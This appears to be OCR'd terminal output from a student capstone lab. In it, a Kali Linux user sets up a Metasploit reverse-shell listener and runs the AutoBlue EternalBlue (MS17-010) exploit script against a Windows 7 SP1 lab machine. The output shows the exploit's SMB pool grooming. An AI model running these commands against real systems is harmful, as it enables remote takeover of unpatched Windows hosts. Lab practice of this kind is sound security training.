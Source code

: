 MERGING SHELLCODE WOOOO!!!
DONE



┌──(venv)─(kali㉿kali)-[~/Capstone/Blue/AutoBlue-MS17-010]
└─$ ./listener_prep.sh 
  __
  /,-
  ||)
  \\_, )
   `--'
Eternal Blue Metasploit Listener

LHOST for reverse connection:
10.0.2.5
LPORT for x64 reverse connection:
9999
LPORT for x86 reverse connection:
2222
Enter 0 for meterpreter shell or 1 for regular cmd shell:
1
Type 0 if this is a staged payload or 1 if it is for a stageless payload: 0
Starting listener (staged)...
Starting postgresql (via systemctl): postgresql.service.
Metasploit tip: The use command supports fuzzy searching to try and 
select the intended module, e.g. use kerberos/get_ticket or use 
kerberos forge silver ticket

(--- snip ---)



┌──(kali㉿kali)-[~/Capstone/Blue/AutoBlue-MS17-010]
└─$ python eternalblue_exploit7.py 10.0.2.15 ./shellcode/sc_all.bin
shellcode size: 2307
numGroomConn: 13
Target OS: Windows 7 Ultimate 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER

(--- clip ---)
